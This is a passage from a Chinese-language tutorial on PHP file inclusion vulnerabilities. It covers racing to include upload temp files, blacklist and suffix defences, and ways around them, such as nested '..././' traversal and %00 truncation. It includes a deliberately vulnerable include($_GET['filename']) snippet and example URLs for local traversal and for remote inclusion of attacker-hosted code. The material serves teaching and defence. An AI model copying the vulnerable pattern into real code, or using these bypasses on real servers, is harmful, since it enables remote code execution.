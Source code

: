 ### 包含临时文件

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

**如何获取临时文件的文件名**：

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考。

## 防御

### 黑名单（协议、路径限制）

使用 `str_replace()` 函数把 `http://`、`https://`、`../`、`..\` 替换为了空值，来防止远程文件包含和相对路径的文件包含。

**绕过**：在 `http://` 中再嵌套一个 `http://` ，以及在 `../` 中多嵌套一个 `../`，在 URL 中输入包含的文件名为 `..././..././phpinfo.php`，则可以绕过限制；另外，也可以使用绝对路径的文件包含。

### 固定后缀

使用`include ( $filename." .html" );`之类的方式固定后缀。但是存在绕过。

**绕过**：各种截断：%00截断、路径长度截断、问号截断、#号截断、空格绕过等。

### 固定所要包含的文件

不传参，直接写死include的文件。

## 绕过

### 无限制文件包含

无限制文件包含是指对于所包含的文件没有限制。无需绕过，可以直接进行文件包含攻击。

```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```

**利用条件**:

需要 `allow_url_include=on`

`http://127.0.0.1:8080/include.php?filename=../../www.txt` 包含本地相对路径的文件。

`http://127.0.0.1/test.php?filename=http://192.168.1.110/xiaohua.txt`

包含在xiaohua.txt中的PHP代码通过远程文件包含被成功当成PHP代码解析。

### 有限制文件包含（需要绕过）

有限制文件包含是指当代码中存在特定的前缀或者.php、.html等扩展名过滤时，攻击者 **需要绕过前缀或者扩展名过滤**，才能执行远程URL中恶意代码。
